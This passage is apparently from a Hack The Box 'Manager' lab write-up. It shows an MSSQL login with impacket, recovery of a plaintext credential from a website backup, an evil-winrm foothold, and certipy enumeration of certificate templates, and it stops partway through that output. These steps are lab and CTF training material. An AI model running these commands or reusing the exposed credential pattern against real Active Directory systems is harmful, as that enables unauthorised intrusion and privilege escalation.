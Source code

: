 ## MSSQL

```sh
impacket-mssqlclient manager/operator:operator@manager.htb -windows-auth
```

![/assets/images/manager6.png]

Download `website-backup-27-07-23-old.zip` from `\inteput\wwwroot`

![/assets/images/manager7.png]

![/assets/images/manager8.png]

Credential obtained.

```text
username : raven@manager.htb
password : R4v3nBe5tD3veloP3r!123
```

# Foothold 

```sh
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

# Privilege Escalation

## Enumeration

We'll attempt to identify potential misconfigurations within the Certification Authority. Let's utilize certipy to find any vulnerabilities that may exist.

```sh
certipy-ad find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable

Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
0
CA Name: manager-DC01-CA
DNS Name: dc01.manager.htb
Certificate Subject: CN=manager-DC01-CA, DC=manager, DC=htb
Certificate Serial Number: 5150CE6EC048749448C7390A52F264BB
Certificate Validity Start: 2023-07-27 10:21:05+00:00
Certificate Validity End: 2122-07-27 10:31:04+00:00
Web Enrollment: Disabled
User Specified SAN: Disabled
Request Disposition: Issue
Enforce Encryption for Requests: Enabled
Permissions
Owner
: MANAGER.HTB\Administrators
Access Rights
Enroll
: MANAGER.HTB\Operator
```